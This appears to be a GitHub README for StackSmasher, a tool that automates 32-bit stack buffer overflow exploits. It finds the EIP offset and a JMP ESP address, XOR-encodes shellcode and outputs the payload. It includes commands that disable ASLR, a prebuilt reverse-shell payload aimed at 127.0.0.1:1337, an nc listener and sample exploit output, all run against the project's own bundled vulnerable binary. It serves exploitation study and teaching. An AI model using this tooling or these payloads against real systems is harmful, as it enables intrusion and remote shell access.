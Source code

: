 # StackSmasher

## Description
StackSmasher is an application which automatically performs a stack based buffer overflow on the target application. Currently it only supports attacking a vulnerable application through the application run time arguments. However, future modifications are to support various application inputs such as standard input and tcp input.

It will rerun the application many times to fuzz the input until a segmentation fault occurs. It will then find the offset of EIP, as well as the address of a JMP ESP instructions. Next it tests all characters to find any bad characters. Afterwards, it xor encodes the payload to obfuscate the payload and remove any bad characters. Finally it builds the final payload and outputs it.

## Modes
The application has two modes, verbose which outputs the information it has found as well as the exploit as a python script. The other mode is exploit mode which only outputs the exploit payload.

## Limitations
Various settings must be disabled for this to work including DEP, NX, and ASLR. ASLR needs to be done manually using the following script. This application also only works against 32 bit applications.

### Disable ASLR
```sh
sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

### Enable ASLR
```sh
sudo bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
```

## Compiling

To compile the applications as 32 bit, you may need to install gcc-multilib.
```sh
sudo apt-get install gcc-multilib
```

Compile all applications.
```sh
make
```

## Running StackSmasher
### Verbose Mode
Running smasher in *verbose* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

```sh
cd bin
chmod +x smasher vulnerable
./smasher verbose payloads/reverse-shell.bin vulnerable
```

Example Output:
```sh
[*] Fuzzing EIP and finding JMP ESP...
[+] Found JMP ESP at 0x565561fe
[+] EIP found at offset 0x51e with length of 0x530
[*] Finding bad characters...
[+] Found 4 bad characters: \x00\x0a\x0d\x43
[*] XOR encoding payload...
[+] [1506 bytes] python -c 'print("\x41\x41\x41...\xc2\x8f\x19")'
```

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
cd bin
./vulnerable $(python -c 'print("\x41\x41...\xcd\x80\x00")')
```

### Exploit Mode
Running smasher in *exploit* mode with the prebuild reverse shell (127.0.0.1:1337) payload against the application *vulnerable*.

Listen For Shell:
```sh
nc -lkp 1337
```

Executing Payload:
```sh
./vulnerable $(./smasher exploit payloads/reverse-shell.bin vulnerable)
```

![StackSmasher](https://user-images.githubusercontent.com/31845045/108642265-06a30800-749c-11eb-88bb-40d9aa6c987b.png)
![Reverse Shell](https://user-images.githubusercontent.com/31845045/108642230-e4a98580-749b-11eb-8243-b90a4280ded4.png)
